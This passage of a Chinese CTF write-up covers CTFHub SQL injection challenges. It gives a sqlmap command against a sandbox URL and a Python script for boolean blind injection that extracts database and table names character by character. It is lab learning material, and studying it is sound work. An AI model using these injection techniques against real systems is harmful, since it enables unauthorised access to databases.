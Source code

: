 - 解法一: SQLMAP跑

```bash
sqlmap --url=http://challenge-fb236deff08bd991.sandbox.ctfhub.com:10080/?id=1 --tables
```
- 解法二: 手工注入

``这个先空着等遇到报错题目再研究以下。``

### 布尔盲注

**解题思路**

- 解法一 ：SQLMAP跑

- 解法二 : python脚本跑(这里引用别人的py)

```py
import requests
import time

urlOPEN = 'http://challenge-你自己环境的连接.sandbox.ctfhub.com:10080/?id=' # 这里需要输入爆破的目标地址
starOperatorTime = []
mark = 'query_success' # 观察目标网站两种结果
def database_name():
    name = ''
    for j in range(1,9):
        for i in 'sqcwertyuioplkjhgfdazxvbnm':
            url = urlOPEN+'if(substr(database(),%d,1)="%s",1,(select table_name from information_schema.tables))' %(j,i)
            # print(url+'%23')
            r = requests.get(url)
            if mark in r.text:
                name = name+i

                print(name)

                break
    print('database_name:',name)


database_name()
def table_name():
    list = []
    for k in range(0,4):
        name=''
        for j in range(1,9):
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN+'if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                # print(url+'%23')
                r = requests.get(url)
                if mark in r.text:
                    name = name+i
                    break
        list.append(name)
    print('table_name:',list)


#start = time.time()
table_name()
#stop = time.time()
#starOperatorTime.append(stop-start)
#print("所用的平均时间： " + str(sum(starOperatorTime)/100))


```